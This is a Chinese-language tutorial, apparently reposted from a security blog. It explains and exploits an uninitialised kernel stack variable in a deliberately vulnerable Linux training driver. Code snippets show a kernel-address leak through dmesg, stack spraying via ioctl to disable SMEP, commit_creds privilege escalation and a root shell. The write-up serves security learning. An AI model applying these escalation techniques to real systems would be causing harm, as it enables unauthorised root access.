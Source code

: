 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.jianshu.com](https://www.jianshu.com/p/b28b964b9243)

本文从[我的先知](https://links.jianshu.com/go?to=https%3A%2F%2Fxz.aliyun.com%2Ft%2F6301)转过来。  
说明：实验所需的驱动源码、bzImage、cpio 文件见[我的 github](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Fbsauce%2Fkernel_exploit_series) 进行下载。本教程适合对漏洞提权有一定了解的同学阅读，具体可以看看我先知之前的文章，或者[我的简书](https://www.jianshu.com/u/a12c5b882be2)。

一、 漏洞分析
=======

### 1. 程序分析

总共两个驱动号，对应两个功能。

```
        case UNINITIALISED_STACK_ALLOC:
        {
            ret = copy_to_stack((char *)p_arg);
            break;
        }
        case UNINITIALISED_STACK_USE:
        {
            use_obj_args use_obj_arg;
            
            if(copy_from_user(&use_obj_arg, p_arg, sizeof(use_obj_args)))
                return -EINVAL;
            
            
            use_stack_obj(&use_obj_arg);
    
            break;
        }


```

第 1 个功能 ->UNINITIALISED_STACK_ALLOC

```
// 布置内核栈: 能往内核栈上传入4096字节的数据
#define BUFF_SIZE 4096
noinline static int copy_to_stack(char __user *user_buff)
    {
        int ret;
        char buff[BUFF_SIZE];

        ret = copy_from_user(buff, user_buff, BUFF_SIZE);
        buff[BUFF_SIZE - 1] = 0;

        return ret;
    }


```

第 2 个功能 -> UNINITIALISED_STACK_USE

```
// 使用内核栈: 初始化内核栈数据
noinline static void use_stack_obj(use_obj_args *use_obj_arg)
    {
        volatile stack_obj s_obj; //volatile表示要求编译器不要对该变量作任何优化

        if(use_obj_arg->option == 0)
        {
            s_obj.fn = uninitialised_callback;
            s_obj.fn_arg = use_obj_arg->fn_arg;
        }

        s_obj.fn(s_obj.fn_arg);     

    }


```

```
// 结构
    typedef struct stack_obj 
    {
        int do_callback;
        long fn_arg;
        void (*fn)(long);
        char buff[48];
    }stack_obj;

    typedef struct use_obj_args
    {
        int option;
        long fn_arg;
    }use_obj_args;


```

### 2. 漏洞分析

漏洞：只有`(use_obj_arg->option == 0)`时，才会初始化 stack_obj 对象。

利用：构造`(use_obj_arg->option != 0)`，产生内核栈变量未初始化引用错误。本驱动其实简化了漏洞利用过程，因为可以直接利用驱动号 UNINITIALISED_STACK_ALLOC 来布置内核栈，不需要考虑用系统调用来布置。

二、 漏洞利用
=======

### 1. 利用步骤

完整代码见`exp_uninitialised_stack.c`。

##### （1）单核执行

```
//step 1: 让程序只在单核上运行，以免只关闭了1个核的smep，却在另1个核上跑shell
void force_single_core()
{
    cpu_set_t mask;
    CPU_ZERO(&mask);
    CPU_SET(0,&mask);

    if (sched_setaffinity(0,sizeof(mask),&mask))
        printf("[-----] Error setting affinity to core0, continue anyway, exploit may fault \n");
    return;
}


```

##### （2）泄露内核基址

```
// step 2: 构造 page_fault 泄露kernel地址。从dmesg读取后写到/tmp/infoleak，再读出来
    pid_t pid=fork();
    if (pid==0){
        do_page_fault();
        exit(0);
    }
    int status;
    wait(&status);    // 等子进程结束
    //sleep(10);
    printf("[+] Begin to leak address by dmesg![+]\n");
    size_t kernel_base = get_info_leak()-sys_ioctl_offset;
    printf("[+] Kernel base addr : %p [+] \n", kernel_base);


```

##### （3）关闭 smep

利用`UNINITIALISED_STACK_ALLOC`功能在内核栈上布置目标函数和所需参数，这样在发生栈变量未初始化使用时就会触发执行目标函数。

```
// step 3: 关闭smep
    char buf[4096];
    memset(buf, 0, sizeof(buf));
    struct use_obj_args use_obj={
        .option=1,
        .fn_arg=1337,
    };

    for (int i=0; i<4096; i+=16)
    {
        memcpy(buf+i, &fake_cr4, 8);   // 注意是fake_cr4所在地址
        memcpy(buf+i+8, &native_write_cr4_addr, 8);  // 注意是native_write_cr4_addr所在地址
    }
    ioctl(fd,UNINITIALISED_STACK_ALLOC, buf);
    ioctl(fd,UNINITIALISED_STACK_USE, &use_obj);


```

##### （4）提权—`commit_creds(prepare_kernel_cred(0))`

```
// step 4: 提权，执行get_root();  注意是把get_root()的地址拷贝过去，转一次
    size_t get_root_addr = &get_root;
    memset(buf, 0, sizeof(buf));
    for (int i=0; i<4096; i+=8)
        memcpy(buf+i, &get_root_addr, 8);

    ioctl(fd,UNINITIALISED_STACK_ALLOC, buf);
    ioctl(fd,UNINITIALISED_STACK_USE, &use_obj);


```

##### （5）返回 shell

```
// step 5: 获得shell
    if (getuid()==0)
    {
        printf("[+] Congratulations! You get root shell !!! [+]\n");
        system("/bin/sh");
    }


```

### 2. 利用结果

成功提权：

![](http://upload-images.jianshu.io/upload_images/6349402-499427dfb40fbf1b.png) 1-exp_uninitialised_stack_succeed.png

### 参考：

[https://invictus-security.blog/2017/06/](https://links.jianshu.com/go?to=https%3A%2F%2Finvictus-security.blog%2F2017%2F06%2F)

[https://github.com/invictus-0x90/vulnerable_linux_driver](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Finvictus-0x90%2Fvulnerable_linux_driver)